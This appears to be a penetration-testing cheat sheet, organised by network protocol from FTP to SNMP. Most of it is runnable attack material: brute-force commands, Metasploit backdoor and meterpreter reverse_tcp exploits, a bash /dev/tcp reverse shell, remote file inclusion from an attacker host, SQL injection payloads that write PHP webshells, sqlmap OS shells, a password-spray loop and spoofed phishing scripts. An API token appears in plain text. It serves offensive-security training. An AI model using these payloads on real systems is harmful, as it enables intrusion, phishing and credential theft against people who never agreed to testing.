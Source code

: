 ## **🛡️ Network Protocols**

### Network protocols allow devices to communicate and exchange data over a network. Here’s an expanded explanation of some commonly used protocols in penetration testing:
---

<details>
<summary>1.📂 FTP (File Transfer Protocol) port 21 </summary>
 <br>   
- **Port:** 21 (TCP)
- **Function:** FTP is used for transferring files between a client and a server. FTP operates over two channels:
    - **Control channel** (for sending commands)
    - **Data channel** (for transferring the actual files).
- **Common Security Issues:**
    - **Anonymous login:** Some FTP servers are misconfigured to allow anonymous logins, providing unauthorized access to files.
    - **Clear-text credentials:** FTP sends usernames and passwords in clear text, making it vulnerable to sniffing attacks.

---

### **1.1. Penetration Testing on FTP**
FTP enumeration
```bash
ftp <IP>
#login if you have relevant creds or based on nmap scan find out whether this has an anonymous login or not, then login with Anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice versa

# Check for vulnerabilities associated with the identified version.
```
![image](https://github.com/user-attachments/assets/70094f78-e27a-446e-a97f-6eb39cff347c)

---
### **1.1.1. Anonymous Login**

When performing penetration testing, an attacker can attempt to log in using **anonymous credentials** if the FTP server allows it. Many misconfigured FTP servers allow anonymous access for easier file sharing, which is a security risk.

**Example FTP login attempt:**

```bash

ftp 192.168.188.131
Name: Anonymous
Password: Anonymous

```
![image](https://github.com/user-attachments/assets/00f9a1e5-3e22-4ad2-86cc-10d990b43574)


If the server allows anonymous login, you will be able to interact with the server and explore its contents.

---

### **1.1.2. Sniffing FTP Credentials (Clear-text Passwords)**

Because FTP doesn’t encrypt traffic, usernames and passwords are sent in clear text. An attacker can use sniffing tools to capture this data, which can be used to compromise the server.

- **Wireshark:** A tool that can capture network packets and allow an attacker to see the FTP credentials.

**How to sniff credentials:**

1. **Start an FTP session**:
    
    ```bash
    
    ftp 192.168.188.131
    
    ```
    
2. **Capture the traffic using Wireshark.**
3. **Follow the TCP stream** to see the credentials:
    - Look for packets containing the string `"PASS"` in Wireshark, which indicates the password being sent.

**Filter clear-text credentials:**

```
frame contains "PASS"
```
![image](https://github.com/user-attachments/assets/84ba48da-79ce-4da8-89d0-0158d5ee9db2)

---

### **1.1.3. FTP Brute-Force Attack (Hydra)**

**Hydra** is a popular tool for performing brute-force attacks against various services, including FTP. It can attempt multiple combinations of usernames and passwords to gain unauthorized access.

**Example of brute-forcing FTP login:**

```bash

hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp
use: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <ip> ftp

```

- **L** specifies a file with usernames.
- **P** specifies a file with passwords.
- **ftp** is the target protocol.

The **wordlist** file contains a list of possible usernames or passwords to be tried. A strong wordlist (such as **rockyou.txt**) increases the chance of success.
![image](https://github.com/user-attachments/assets/eafa1572-24ac-4ef1-93bd-6734b79ad5e0)

---

### **1.1.4. FTP Remote Shell via Nmap Script**

You can also use **Nmap** to exploit specific vulnerabilities in FTP servers. The `ftp-vsftpd-backdoor.nse` script is designed to exploit a vulnerability in **vsFTPd 2.3.4**, which contains a backdoor.

**Example Nmap command to check for the backdoor:**

```bash

sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse

```

This will test if the FTP server is vulnerable to the **vsFTPd backdoor**. If the server is vulnerable, you may be able to execute commands remotely.
![image](https://github.com/user-attachments/assets/48113953-c487-4bfa-bf04-49b376c60901)

---

### **1.1.5. Exploiting FTP Vulnerabilities with Metasploit**

Metasploit is another powerful tool used for exploiting vulnerabilities in systems. If the FTP server is running a vulnerable version of vsFTPd (e.g., **vsFTPd 2.3.4**), Metasploit can be used to exploit it.

**Steps to exploit vsFTPd 2.3.4 with Metasploit:**

1. **Search for the exploit:**
    
    ```bash
    
    msfconsole
    search vsftpd 2.3.4
    
    ```
    
2. **Use the exploit:**
    
    ```bash
  
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 192.168.188.131
    exploit
    
    ```
    
3. **Interact with the remote shell:**
    
    ```bash
   
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ```
    

By exploiting this vulnerability, you can get access to the **root** account on the target machine.
![image](https://github.com/user-attachments/assets/2c266ec1-e757-4442-970e-cc713e589347)

</details> 

<details>
 
<summary>2.🔒 SSH (Secure Shell) port 22 </summary>
 <br>
**Secure Shell (SSH)** is a cryptographic network protocol designed for secure communication over an unsecured network. It is primarily used for remote login and command-line execution, replacing older, less secure protocols like Telnet and rlogin
https://www.ssh.com/academy/ssh/public-key-authentication

https://docs.github.com/en/authentication/connecting-to-github-with-ssh/about-ssh

## SSH enumeration


#Login

    ssh uname@IP #enter the password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for the password, crack it using John

**Enumerating SSH authentication method
The SSH authentication method can be enumerated by using the ssh-auth-methods script in nmap, the username can be given using the –script-args flag. The following command can be used to enumerate the authentication method used:

    nmap --script ssh-auth-methods --script-args="ssh.user=pentest" -p 22 <ip>
#cracking id_rsa or id_ecdsa

     ssh2john id_ecdsa(or)id_rsa > hash
     john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

bruteforce
Since the authentication is password based hence the service can be brute forced against a username and password dictionary using hydra to find the correct username and password. After creating a username dictionary as users.txt and password dictionary as pass.txt, the following command can be used:

    hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice versa
    hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<ip>

**Nmap SSH brute-force script

    nmap --script ssh-brute -p 22 <ip>
# Check for vulnerabilities associated with the identified version.

Use full commands:
- `t rsa`: Specifies the RSA algorithm.
- `b 4096`: Specifies the key length (4096 bits is recommended).
- You can also use `b 2048` for a shorter key length.
- **Follow the prompts:**
- Enter the path to save the key (default is `~/.ssh/id_rsa`).
- Enter a passphrase for the private key (optional but recommended for security).
- You'll have a public key (`~/.ssh/id_rsa.pub`) and a private key (`~/.ssh/id_rsa`).

### Authentication using Metasploit

An alternate way to perform the above procedure could be done by using the Metasploit module. The exploit multi/ssh/sshexec can be used to authenticate into the SSH service. Here we are assuming that the attacker has compromised the username and password already. Following will be the commands inside the Metasploit:

    use exploit/multi/ssh/sshexec
    set rhosts 192.168.31.205
    set payload linux/x86/meterpreter/reverse_tcp
    set username pentest
    set password 123
    show targets
    set target 1
    exploit

###Key based authentication (Metasploit)

The above procedure can also be performed using the Metasploit framework. The auxiliary/scanner/ssh/ssh_login_pubkey can be used to authenticate via key.

Following options can be given as configurations to run the auxiliary/scanner:

    use auxiliary/scanner/ssh/ssh_login_pubkey
    set rhosts 192.168.31.205
    set key_path /root/Downloads/ssh/id_rsa
    set key_pass 123
    set username pentest
    exploit
**while performing the brute force using hydra, the updated port needs to be given. Hence, the new command will be:

    hydra -L users.txt -P pass.txt <ip> ssh -s 2222
<img width="749" height="232" alt="image" src="https://github.com/user-attachments/assets/1aeefe88-7835-4718-857f-1107a5bb211a" />


**2. Copy the Public Key to the Server:**

Use the ssh-copy-id command.

Code

```jsx
    ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip_or_hostname
```

- Replace `user` with your username on the server.
- Replace `server_ip_or_hostname` with the server's IP address or hostname.
- **Alternatively, manually copy the public key:**
- Read the contents of `~/.ssh/id_rsa.pub`.
- SSH into the server.
- Create the directory `~/.ssh` if it doesn't exist.
- Create or edit the file `~/.ssh/authorized_keys`.
- Append the contents of your public key to the `authorized_keys` file.
- Change the permissions of `~/.ssh` to `700` and `authorized_keys` to `600`.

Code

```jsx
    mkdir -p ~/.ssh    chmod 700 ~/.ssh   
    touch ~/.ssh/authorized_keys    
    chmod 600 ~/.ssh/authorized_keys    
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

**3. Log in with the Private Key:**

- **Open your terminal**: on your local machine.
- Use the `ssh` command with the `i` option:
  ```jsx
  ssh -i ~/.ssh/id_rsa user@server_ip_or_hostname
  ssh -oHostKeyAlgorithms=+ssh-rsa TCM@10.10.81.58 -p22
  ```
  ![image](https://github.com/user-attachments/assets/bdb18c28-6296-4013-bd28-4d6edafd81e9)

**LAB**

🔍 1. Scan the Target with Nmap
You used Nmap to detect open ports, services, and versions on the target machine:

       nmap -sV -A -Pn -p22 192.168.188.131
![image](https://github.com/user-attachments/assets/0c302403-7c3a-43ba-8ae1-07e071f8290d)
identified OpenSSH 4.7p1

🌐 2. Search for Exploits
A quick Google search led to a publicly available exploit on GitHub.
![image](https://github.com/user-attachments/assets/5c3d0256-140d-496c-9a9d-659eee20cc72)

📥 3. Download the Exploit
You cloned the exploit repository using:

    git clone https://github.com/sec-jarial/OpenSSH_4.7p1-Exploit.git
    cd OpenSSH_4.7p1-Exploit

 
🐍 4. Fix Script Error: Bad Interpreter
When running the script:
 
    ./openssh_4.7p1.py                
    zsh: ./openssh_4.7p1.py: bad interpreter: /usr/bin/python3^M: no such file or directory

 ![image](https://github.com/user-attachments/assets/665777b1-d68e-4932-a420-ee61d5bd2a19)

✅ Fix: Convert Line Endings
The error indicates Windows-style line endings (CRLF). Fix it using:

    dos2unix openssh_4.7p1.py
Or, use a text editor (e.g., VS Code, Vim) to convert to LF.

🐍 5. Set the Correct Python Interpreter
Ensure the shebang (#!) at the top of the script points to your actual Python binary:

    #!/usr/bin/env python3
Replace the shebang accordingly.
Specify Correct Python Path: 

    #!/home/kali/path/to/venv/bin/python

![image](https://github.com/user-attachments/assets/19748c1f-cdd1-4297-88b6-e87a7104d17b)

▶️ 6. Run the Exploit
Now the script should execute without interpreter errors:

    ./openssh_4.7p1.py

![image](https://github.com/user-attachments/assets/e1e593d4-99f6-43cd-af6e-a231c1fcfb9d)

Result: Got the SSH shell

![image](https://github.com/user-attachments/assets/31ed8b76-ded9-427e-9850-9d19cf7f7ee7)


</details>
<details>
 <summary>3. SMTP (Simple Mail Transfer Protocol) port 25</summary>
 <br>
What is SMTP?
SMTP is the Simple Mail Transfer Protocol used to send emails between mail servers. It typically listens on port 25, though ports 587 (submission) and 465 (SMTPS) are also common.

Misconfigurations in SMTP servers—such as open relays, authentication bypass, or exposed user verification commands (VRFY/EXPN)—can be exploited to enumerate users, send spoofed phishing emails, or relay attacks.

🔎 ENUMERATING SMTP
🧪 Manual Banner Grabbing
bash

    nc -nv <IP> 25
Useful commands in the SMTP session:

smtp

    EHLO attacker.com
    VRFY root
    EXPN admin
    RCPT TO:test@target.com
Common responses:

250 OK → valid
550 User unknown → invalid
252 Cannot VRFY user → unverified (could be valid)

🛠 Tools for User Enumeration
✅ smtp-user-enum
Supports VRFY, RCPT, and EXPN modes.

bash

    smtp-user-enum -M VRFY -U users.txt -t <IP>
Other modes:

-M RCPT (works even if VRFY is disabled)
-M EXPN (useful if aliases/mailing lists are configured)

✅ Metasploit
bash

    use auxiliary/scanner/smtp/smtp_enum
    set RHOSTS <IP>
    set RPORT 25
    set USER_FILE users.txt
    run
✅ iSMTP (Kali Tool)
Test for enumeration, spoofing, and relay support.

bash

    ismtp -h <IP>:25 -e email_list.txt
✅ nmap Script
bash

    nmap -p 25 --script smtp-enum-users <IP>
💣 Exploiting Open Relay
An Open Relay allows unauthenticated users to send mail to external domains—ideal for phishing or spamming.

✅ Manual via Telnet
bash

    telnet <IP> 25
    HELO attacker.com
    MAIL FROM: attacker@attacker.com
    RCPT TO: victim@externaldomain.com
    DATA
    Subject: Test Message

    This is a test message.
    .
If 250 OK is received after RCPT TO, the server is likely an open relay.

✅ Nmap Open Relay Check
bash

    nmap -p 25 --script smtp-open-relay <IP>
📤 Sending Emails (Phishing / Spoofing)
✅ Using swaks
swaks is a powerful SMTP tester and spam/phish simulation tool.

bash

    swaks --to victim@target.com --from admin@target.com --server <IP> \--header "Subject: Update Required" --body @body.txt \--attach @file.pdf --auth LOGIN --auth-user attacker --auth-password password
Also works without auth on open relays:

bash

    swaks --to victim@target.com --from ceo@target.com --server <IP> --data "Subject: Urgent Action\nClick here"
🛠 ALTERNATIVE TOOLS
Tool	Purpose
smtp-user-enum	Bruteforce usernames via SMTP responses
swaks	Send test/phishing emails via SMTP
nmap smtp- scripts*	Banner grabbing, enum, relay checks
Metasploit smtp_enum	VRFY/EXPN-based user brute-force
iSMTP	Enumeration and spoofing test
smtp-cli	Lightweight mail-sender (can spoof headers)
Python + smtplib	Custom phishing or payload delivery scripts

🧪 Python Script Example (Spoofed Email)
python

    import smtplib
    from email.message import EmailMessage

    msg = EmailMessage()
    msg.set_content("This is a phishing test.")
    msg['Subject'] = 'Urgent Action Required'
    msg['From'] = 'admin@company.com'
    msg['To'] = 'victim@company.com'

    server = smtplib.SMTP('<IP>', 25)
    server.send_message(msg)
    server.quit()
🛡️ Mitigation Tips
❌ Disable VRFY and EXPN commands (or return generic error like 252)

❌ Disable open relay (ensure relay is restricted to known internal IPs)

✅ Use SMTP AUTH and TLS for submission

✅ Monitor SMTP logs for brute-force attempts or external relays

✅ Apply SPF, DKIM, and DMARC to prevent spoofing

📚 Real-World Use Cases
🎣 Phishing Campaigns – Sending fake internal alerts or staged payloads

🕵️ Internal Recon – Validating usernames before brute-forcing SMB/WinRM

🧠 Password Spray – Combining usernames from SMTP enumeration in other protocols (SMB, HTTP, WinRM, etc.)

</details>

<details>
<summary>4. DNS (Domain Name System) port 53</summary>
 <br>
- Better use `Seclists` wordlists for better enumeration. https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

```
host www.megacorpone.com
host -t mx megacorpone.com
host -t txt megacorpone.com

for ip in $(cat list.txt); do host $ip.megacorpone.com; done #DNS Bruteforce
for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found" #bash bruteforcer to find domain name

## DNS Recon
dnsrecon -d megacorpone.com -t std #standard recon
dnsrecon -d megacorpone.com -D ~/list.txt -t brt #bruteforce, hence we provided list

# DNS Bruteforce using dnsenum
dnsenum megacorpone.com

## NSlookup, a gold mine
nslookup mail.megacorptwo.com
nslookup -type=TXT info.megacorptwo.com 192.168.50.151 #We are querying the information from a specific IP, here it is 192.168.50.151. This can be very useful
```
</details>

<details>
<summary>5. HTTP/S (Hypertext Transfer Protocol) port 80, 443</summary>
 <br>
- View the source code and identify any hidden content. If an image looks suspicious, download it and try to find hidden data in it.
- Identify the version or CMS and check for active exploits. This can be done using Nmap and Wappalyzer.
- check /robots.txt folder
- Look for the hostname and add the relevant one to `/etc/hosts` file.
- Directory and file discovery - Obtain any hidden files that may contain juicy information

```
dirbuster
gobuster dir -u http://example.com -w /path/to/wordlist.txt
python3 dirsearch.py -u http://example.com -w /path/to/wordlist.txt
```

- Vulnerability Scanning using nikto: `nikto -h <url>`
- `HTTPS`SSL certificate inspection, may reveal information like subdomains, usernames…etc
- Default credentials: Identify the CMS or service, check for default credentials, and test them out.
- Bruteforce

```
hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https, post, or get, which can be obtained from Burpsuite. Also, capture the response for detailed information.

#Bruteforce can also be done by Burpsuite but it's slow, prefer Hydra!
```

- if `cgi-bin` is present, then do further fuzzing and obtain files like .sh or .pl
- Check if other services like FTP/SMB or any other that has upload privileges are getting reflected on the web.
- API - Fuzz further, and it can reveal some sensitive information

```
#identifying endpoints using gobuster
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern #pattern can be like {GOBUSTER}/v1 here v1 is just for example, it can be anything

#obtaining info using curl
curl -i http://192.168.50.16:5002/users/v1
```

- If there is any Input field check for **Remote Code execution** or **SQL Injection**
- Check the URL, whether we can leverage **Local or Remote File Inclusion**.
- Also check if there’s any file upload utility(also obtain the location it’s getting reflected)

**Wordpress**

```
# basic usage
wpscan --url "target" --verbose

# enumerate vulnerable plugins, users, vulnerable themes, timthumbs
wpscan --url "target" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Add Wpscan API to get the details of vulnerabilties.
wpscan --url http://alvida-eatery.org/ --api-token NjnoSGZkuWDve0fDjmmnUNb1ZnkRw6J2J1FvBsVLPkA

#Accessing Wordpress shell
http://10.10.67.245/retro/wp-admin/theme-editor.php?file=404.php&theme=90s-retro

http://10.10.67.245/retro/wp-content/themes/90s-retro/404.php
```

**Drupal**

```
droopescan scan drupal -u http://site
```

**Joomla**

```
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://site/ -w passwords.txt -usr username #https://github.com/ajnik/joomla-bruteforce
```
### **Web Attacks**

💡 Cross-platform PHP revershell: [

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php))

**Directory Traversal**

```
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

**Local File Inclusion**

- The main difference between Directory traversal and this attack is that we can execute commands remotely here.

```
#At first we need
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

- Remote file inclusion

```
1. Obtain a php shell
2. host a file server
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

**SQL Injection**

```
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code Execution

```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```
</details>

<details>
<summary>6. POP3 (Post Office Protocol Version 3) port 110</summary>
 <br>
**Post Office Protocol** \(**POP**\) is a type of computer networking and Internet standard **protocol** that extracts and retrieves email from a remote mail server for access by the host machine. **POP** is an application layer **protocol** in the OSI model that provides end users the ability to fetch and receive email \(from [here](https://www.techopedia.com/definition/5383/post-office-protocol-pop)\).

The POP clients generally connect, retrieve all messages, store them on the client system, and delete them from the server. There are 3 versions of POP, but POP3 is the most used one.

**Default ports:** 110, 995\(ssl\)

```text
PORT    STATE SERVICE
110/tcp open  pop3
```

## Enumeration

### Banner Grabbing

```bash
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
```

## Manual

You can use the command `CAPA` to obtain the capabilities of the POP3 server.

## Automated

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port <PORT> <IP> #All are default scripts
```

The `pop3-ntlm-info` plugin will return some "**sensitive**" data \(Windows versions\).

### [POP3 bruteforce](../brute-force.md#pop)

## POP syntax

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

From [here](http://sunnyoasis.com/services/emailviatelnet.html)

Example:

```text
root@kali:~# telnet $ip 110
 +OK beta POP3 server (JAMES POP3 Server 2.3.2) ready 
 USER billydean    
 +OK
 PASS password
 +OK Welcome billydean

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Message follows
 From: jamesbrown@motown.com
 Dear Billy Dean,

 Here is your login for remote desktop ... try not to forget it this time!
 username: billydean
 password: PA$$W0RD!Z
```

```

### Identifying Issues

- Clear-text authentication (no SSL/TLS).
- Weak credentials (try common usernames/passwords).
- Default or anonymous access.

### Exploiting

```bash

# Manual login attempt
telnet <IP> 110
USER <username>
PASS <password>

# Hydra brute force
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 110 -vV <IP> pop3

```

### References

- HackTricks - POP3
- POP3 RFC 1939
</details>



<details>
<summary>7.🔌 RPC (Remote Procedure Call) port 111 </summary>
 <br>
RPC allows a program on one computer to execute a procedure on another computer.

**Enumerating with RPCClient:**
**Connect to RPC server with an anonymous bind:**
```bash

$ rpcclient -U "" -N <target>
srvinfo
enumdomusers #Enumerate Domain Users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
getdompwinfo #Get Domain Password Info
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups # Enumerate Domain Groups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
querygroupmem 0x200 #Query Group Membership
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users

```

This will provide information about the target system and its users.
![image](https://github.com/user-attachments/assets/1a5d498c-8a6d-4a91-b017-69b62a6cb5e2)

“RID are relative identifier to identify an object which will be in hexa decimal format”

![image](https://github.com/user-attachments/assets/d3e9af35-e0b2-4c72-b893-e7a24141b82a)

**Password Spray Attack**

The following script will iterate over usernames and passwords and try to execute "getusername". Watch out for "ACCOUNT_LOCKED" error messages.

```
TARGET=10.10.10.10;
while read username; do
  while read password; do
    echo -n "[*] user: $username" && rpcclient -U "$username%$password" -c "getusername;quit" $TARGET | grep -v "NT_STATUS_ACCESS_DENIED";
  done < /path/to/passwords.txt
done < /path/to/usernames.txt
```

If a password is found, use it with smbclient to explore the SYSVOL:

```
$ smbclient -U "username%password" \\\\<target>\\SYSVOL
Domain=[HOME] OS=[Windows Server 2008]
...
smb: \> ls
...
```
---
</details>

<details>
<summary>8.🗂️ SMB (Server Message Block) port 139,445</summary>
 <br>
SMB is a protocol used for file and printer sharing, as well as inter-process communication between computers.

**Example Nmap command to scan for SMB services:**

```bash

sudo nmap -p 445 -sV -sC 192.168.188.131
locate .nse | grep smb
nmap -p445 --script="name" $IP 

```
![image](https://github.com/user-attachments/assets/5f4b1ffc-baab-4de5-9c0f-dcb520401b1c)


**Enumerating SMB Shares:**

```bash
#In windows we can view like this
net view \\<computername/IP> /all

enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
#If you got user name and password:
smbmap -H 192.168.188.131 -u "msfadmin" -p "msfadmin" -r tmp -A '.*' -q

```

**Brute-forcing SMB credentials:**

```bash

hydra -l admin -P /home/kali/pass.txt smb://192.168.188.131
or
netexec smb 192.168.188.131 -u admin -p /home/kali/pass.txt --continue-on-success

```
![image](https://github.com/user-attachments/assets/c592d34d-613f-49b5-9a92-c3b8c951958a)
```bash
# Smbclient
smbclient -L //IP #or try with 4 /'s
smbclient //server/share
smbclient //server/share -U <username>
smbclient //server/share -U domain/username

#SMBmap
smbmap -H <target_ip>
smbmap -H <target_ip> -u <username> -p <password>
smbmap -H <target_ip> -u <username> -p <password> -d <domain>
smbmap -H <target_ip> -u <username> -p <password> -r <share_name>

#Within SMB session
put <file> #to upload file
get <file> #to download file
```
Downloading shares is easy—if the folder consists of several files, they will all be downloaded by this.
```bash
mask ""
recurse ON
prompt OFF
mget *
```
**Exploit SMB:**
Try to connect with no pass

```jsx
smbclient --no-pass //192.168.188.131/tmp
```

login as Anonymous:

![image](https://github.com/user-attachments/assets/1e13a6c6-3293-4bf3-a01e-bb3303698da0)


since we have smb access i tried:
```jsx
put rev.sh
posix 
chmod +x rev.sh
chown Anonymous rev.sh
open rev.sh
```
But didnt work:
Failed to open file /rev.sh. NT_STATUS_ACCESS_DENIED
![image](https://github.com/user-attachments/assets/4a71afb8-42f0-471e-bebb-bc7bc0a83107)

SMB Version Samba 3.0.20 found, search for exploits:
```bash
searchsploit samba 3.0.20  
locate multiple/remote/10095.txt
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
```
![image](https://github.com/user-attachments/assets/6603e3bd-03ea-4424-8d4c-f3aac3acdd52)

</details>
<details>
<summary>9.📡 SNMP (Simple Network Management Protocol) port UDP 161</summary>
 <br>

SNMP is used to manage and monitor network devices. It can be exploited if the community string is weak or known (like **public** or **private**).
![image](https://github.com/user-attachments/assets/c4d02453-3331-4739-bf58-f38aea7a6133)

**Example SNMP enumeration with `snmpcheck`:**

```bash

snmpcheck -c public -h 192.168.188.131
snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP> #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25 #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2 #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2 #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3 #Opened TCP Ports

#Windows MIB values
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports

```
if community string was public try to connect with snmpcheck
![image](https://github.com/user-attachments/assets/1eef5dc1-7a3e-40e9-9b37-ce2bfea237d9)

try to use snmp walk
![image](https://github.com/user-attachments/assets/3a136368-a50b-4fb4-a7dd-63d72ed69358)

**Brute-forcing SNMP community strings:**

```bash

onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
or
snmpwalk -v1 -c public 192.168.146.156 NET-SNMP-EXTEND-MIB :: nsExtendObjects

```
What is SNMP?
Simple Network Management Protocol (SNMP) is used to manage and monitor networked devices (routers, switches, printers, servers, etc.). It typically runs over UDP port 161 for general communication and UDP port 162 for traps.

Devices expose information using MIBs (Management Information Base).

SNMP is stateless and supports versions v1, v2c, and v3:

v1/v2c are widely used but insecure (community strings are in plaintext).

v3 adds encryption and authentication.

🧭 Enumeration Techniques
1. Port Scanning
bash

       nmap -sU -p 161,162 <target-ip>
-sU: Scan UDP ports
-p: Specify SNMP ports (161 for queries, 162 for traps)

2. snmpwalk
bash

       snmpwalk -v1 -c public <target-ip>
Use -v2c or -v3 as needed.

Common community strings: public, private, manager.

Useful OIDs:
1.3.6.1.2.1.1.5.0 – Hostname

1.3.6.1.2.1.25.1.6.0 – System processes

1.3.6.1.2.1.25.4.2.1.2 – Running processes

1.3.6.1.4.1 – Vendor-specific MIBs

3. snmpset (Active interaction)
bash

       snmpset -v1 -c private <target-ip> iso.3.6.1.2.1.1.5.0 s "hacked"
Requires write access (via private community string).

4. Dump Output to File
bash

       snmpwalk -v1 -c public <target-ip> > snmpout.txt
gedit snmpout.txt
5. SNMP-check
bash

     snmp-check -p 161 -c public <target-ip>
